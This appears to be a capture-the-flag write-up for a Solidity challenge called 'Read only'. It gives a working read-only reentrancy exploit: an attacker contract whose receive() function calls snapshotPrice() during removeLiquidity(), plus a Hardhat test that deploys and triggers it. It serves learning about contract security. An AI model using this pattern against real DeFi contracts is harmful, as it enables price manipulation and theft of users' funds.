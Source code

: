 # Read only

## Goals

=> SnapshotPrice should be zero
=> Do this in 2 transactions or less

### Hints

- None

### Solution

- So since the `removeLiquidity()` function makes an external call and transfers eth we can implement a malicious `receive()` function that updates the snapshot which will update before burning tokens, thus the snapshot not returning the right value.

### Steps

- Deploy `PoolAttacker` contract with a value > 1 ether

- Call the attack function

### Attacker Contract

```solidity
contract PoolAttacker {
    ReadOnlyPool private pool;
    VulnerableDeFiContract private target;

    constructor(address _pool, address _target) payable {
        pool = ReadOnlyPool(_pool);
        target = VulnerableDeFiContract(_target);
        pool.addLiquidity{value: msg.value}();
    }

    function attack() external {
        pool.removeLiquidity();
    }

    receive() external payable {
        target.snapshotPrice();
    }
}

```

### Test

```javascript
it('conduct your attack here', async function () {
	const AttackerContractFactory = await ethers.getContractFactory('PoolAttacker');
	const attackerContract = await AttackerContractFactory.deploy(
		readOnlyContract.address,
		vulnerableDeFiContract.address,
		{
			value: ethers.utils.parseEther('1.1'),
		}
	);
	const attackTx = await attackerContract.attack();
	await attackTx.wait();
});
```
